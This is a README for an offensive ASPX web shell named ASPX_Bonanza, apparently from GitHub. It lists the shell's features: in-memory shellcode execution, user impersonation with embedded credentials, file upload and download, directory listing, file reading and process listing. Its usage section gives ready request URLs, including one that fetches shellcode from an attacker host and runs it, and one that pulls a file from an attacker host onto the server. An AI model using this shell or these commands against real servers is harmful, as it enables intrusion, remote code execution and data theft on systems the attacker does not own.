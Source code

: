 # ASPX_Bonanza

ASPX_Bonanza is a multi-featured aspx shell with a unique use case. It has a few features with capabilities such as the use of executing shellcode in memory. Also, this script logs in directly with the impersonating user credentials and doesn’t require the seImpersonate privilege for the user running IIS.

`impersonate_bonanza.aspx` requires valid credentials to get the token and impersonate the user.
`bonanza.aspx` does not require credentials and will run as the current user without impersonating.

----

## Features
- Execute shellcode in memory
- Download and Upload files
- List directories
- Cat files
- List processes

## Demo
https://user-images.githubusercontent.com/87979263/165757358-2b1e54e2-8442-4302-888a-ee2dd65c9eac.mp4

## Usage
### Impersonating user
In order to impersonate the user you want, in the source code you will have to edit the `username`, `domain` & `password`.

### Download and Execute shellcode in memory
``
https://url/impersonate_bonanza.aspx?shellcodeUrl=https://attacker/shellcode.bin
``
### List directories
``
https://url/impersonate_bonanza.aspx?dir=C:\users\public
``

### Download files
``
https://url/impersonate_bonanza.aspx?FileDownload=C:\users\public\FILE
``

### Upload files
``
https://url/impersonate_bonanza.aspx?UploadSource=https://attacker/FILE&UploadDestination=C:\users\public\FILE
``

### Cat files
``
https://url/impersonate_bonanza.aspx?Cat=C:\users\public\FILE
``

### View processes
``
https://url/impersonate_bonanza.aspx?Process=1
``
